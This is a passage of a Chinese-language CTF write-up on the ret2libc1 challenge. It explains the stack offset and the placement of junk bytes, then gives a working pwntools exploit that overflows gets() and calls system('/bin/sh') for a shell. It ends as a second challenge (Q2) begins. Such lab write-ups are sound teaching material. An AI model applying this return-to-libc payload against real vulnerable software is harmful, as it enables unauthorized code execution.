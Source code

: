 或者查找

```shell
pwndbg> shell ROPgadget --binary ret2libc1 --string '/bin/sh'
Strings information
============================================================
0x08048720 : /bin/sh
```

同样

```
ebp - (gets &str) = 108
加上垃圾数据(ebp)  -> 112
```

那么有

> 构造payload的时候中间要插入**一个**垃圾数据'b'*4
>
> 原理
>
> ```
> 子函数(callee)和父函数(caller)的栈帧之间搁着一个 ret_addr !!!
> callee 保存了父函数的 ebp(栈底)
> caller 保存了子函数的 params(参数) and return_address(返回地址)
> ```

**exploit**

```python
#!/usr/bin/env python
from pwn import *

system_plt_addr = 0x08048460
string_sh_addr = 0x08048720
payload = flat(['a'*112, system_plt_addr, 'b'*4, string_sh_addr])

io = process('./ret2libc1')
io.sendline(payload)
io.interactive()
```



#### Q2

> 该题目与 `Q1` 基本一致，只不过不再出现 /bin/sh 字符串，所以此次需要我们自己来读取字符串，所以我们需要两个 gadgets，第一个控制程序读取字符串，第二个控制程序执行 system("/bin/sh")。

查看`system@plt`和`gets@plt`

```C
0x8048460: gets@plt
0x8048470: time@plt
0x8048480: puts@plt
0x8048490: system@plt
```
